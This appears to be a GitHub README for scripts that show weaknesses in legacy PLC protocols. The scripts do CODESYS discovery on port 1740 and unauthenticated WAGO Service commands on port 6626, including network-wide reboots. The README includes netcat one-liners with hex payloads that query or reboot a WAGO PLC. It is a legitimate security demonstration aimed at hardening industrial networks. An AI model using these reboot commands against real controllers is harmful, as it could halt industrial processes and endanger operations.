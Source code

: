 ## Description
Tis repo is a collection of tools to highlight the weaknesses of legacy protocol, and to show the importance of a cybersec configuration. 

## scan_codesys.py

This Python script benefits of discovery protocol used by CODESYS 3 (on port 1740) to gather information about PLCs on a network. 
A predefined UDP frame is sent to a broadcast address on port 1740, and answers from PLCs are collected and parsed.
This is a reminder that this port isn't secure, should be disabled. The discover feature is useful but isn't mandatory in order to use CODESYS.

### Usage

`python3 scan_codesys.py 192.168.1.255`

Example of result :

```
IP Address      Device Name          Complete Name                            Manufacturer              MAC Address                               
192.168.1.12   PFC300-68415F        WAGO 750-8302 PFC300 2ETH RS             WAGO                      0030DE684161                                 
192.168.1.4    PFC200V3-48117C      WAGO 750-8210 PFC200 G2 4ETH             WAGO                      0030DE48117C                            
192.168.1.5    0030DE5A9782         750-8001 Basic Controller 100 2ETH       WAGO GmbH & Co. KG        37SUN31564010260523873+0000000000000176
```

## wagoservice.py

This Python script uses legacy protocol WAGO Service on port 6626, used by software like WAGO Ethernet Settings or WAGO I/O Check. 
This legacy protocol is unauthenticated. 
WAGO Ethernet Settings can be easily replaced by the Web Based Management, which is secure. 
WAGO I/O Check is used for configuration of I/O modules, but should be used only during the commissionning, ideally when the PLC isn't connected to the network. 
The script sends predefined TCP frame in order to gather information about WAGO PLCs and could be used to reboot the PLC. 
A discover function based on NMAP will WAGO devices with 6626 port open on the specified network.
When a network adress is provided, the reboot function will restart all WAGO devices... Be careful.

### Usage

`python3 wagoservice.py  <command> <address/network>`

where :
- command : info / reboot / discover
- address/network : can be a single IP address or a network in CIDN format (i.e 192.168.1.0/24)

Example and results :
```
python3 wagoservice.py discover 192.68.1.0/24
+---------------------+---------------------+---------------------+---------------------+---------------------+                          
| IP Address          | MAC Address         | PSN                 | SW-VER              | SN                  |                        
+---------------------+---------------------+---------------------+---------------------+---------------------+                        
| 192.168.1.1         | 00:30:DE:0A:93:56   | 750-880             | 01.08.25(16)        | SN20121115T113608-0416146#PFC|0030DE069605 |
| 192.168.1.2         | 00:30:DE:06:96:05   | 750-8001            | 01.04.02(00)        | SN20230403T202128-1738604#BC|0030DE5A9782 |
| 192.168.1.3         | 00:30:DE:5A:97:82   | 751-9301            | 04.06.03(28)        | 37SUN31564010260470190+0000000002347218 |
| 192.168.1.4         | 00:30:DE:4E:6F:EC   | 750-8302            | 04.06.01(28)        | 37SUN31564010260575922+0000000000001690 |
| 192.168.1.5         | 00:30:DE:68:41:5F   | 750-8210            | 04.05.10(27)        | 37SUN31564010260429954+0000000000000008 |
| 192.168.1.6         | 00:30:DE:48:11:7C   | 750-8217            | 03.10.10(22)        | 37SUN31564010260430577+0000000000003662 |
+---------------------+---------------------+---------------------+---------------------+---------------------+
```

## One-liner commands

Also based on WAGO Service protocol, this simple commands can be used to retrieve information or to reboot a WAGO PLC device.
Can be used directly on a WAGO Linux-based PLC.

### Get information
`echo '8812020001000100000000000000000002000801' | xxd -r -p | nc 192.168.1.10 6626`

### Reboot
`echo '8812320001000100000000000000000002000201' | xxd -r -p | nc 192.168.1.10 6626`

# Disclaimer  
This collection of tools is intended solely for legitimate and authorized use in conducting cybersecurity demonstration within a network. Users are required to obtain proper authorization from network owners or administrators before use.

The developer of this program assumes no responsibility for any unauthorized use or any consequences arising from the improper application of this tools. By using this tools, you agree that you have the necessary permissions and you assume all liability associated with its use. Please ensure compliance with all applicable laws and regulations regarding network scanning and cybersecurity practices.